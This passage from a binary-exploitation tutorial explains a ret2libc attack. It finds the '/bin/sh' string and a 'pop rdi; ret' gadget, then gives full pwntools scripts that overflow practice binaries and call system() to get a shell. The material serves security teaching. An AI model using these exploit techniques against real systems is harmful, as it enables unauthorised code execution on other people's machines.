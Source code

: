 Since `/bin/sh` is just a string, we can use `strings` on the dynamic library we just found with `ldd`. Note that when passing strings as parameters you need to pass a **pointer** to the string, not the hex representation of the string, because that's how C expects it.

```bash
$ strings -a -t x /lib32/libc.so.6 | grep /bin/sh
18c32b /bin/sh
```

`-a` tells it to scan the entire file; `-t x` tells it to output the offset in hex.

##### 32-bit Exploit

```python
from pwn import *

p = process('./vuln-32')

libc_base = 0xf7dc2000
system = libc_base + 0x44f00
binsh = libc_base + 0x18c32b

payload = b'A' * 76         # The padding
payload += p32(system)      # Location of system
payload += p32(0x0)         # return pointer - not important once we get the shell
payload += p32(binsh)       # pointer to command: /bin/sh

p.clean()
p.sendline(payload)
p.interactive()
```

##### 64-bit Exploit

Repeat the process with the `libc` linked to the 64-bit exploit (should be called something like `/lib/x86_64-linux-gnu/libc.so.6`).

Note that instead of passing the parameter in after the return pointer, you will have to use a `pop rdi; ret` gadget to put it into the RDI register.

```bash
$ ROPgadget --binary vuln-64 | grep rdi

[...]
0x00000000004011cb : pop rdi ; ret
```

```python
from pwn import *

p = process('./vuln-64')

libc_base = 0x7ffff7de5000
system = libc_base + 0x48e20
binsh = libc_base + 0x18a143

POP_RDI = 0x4011cb

payload = b'A' * 72         # The padding
payload += p64(POP_RDI)     # gadget -> pop rdi; ret
payload += p64(binsh)       # pointer to command: /bin/sh
payload += p64(system)      # Location of system
payload += p64(0x0)         # return pointer - not important once we get the shell

p.clean()
p.sendline(payload)
p.interactive()
```
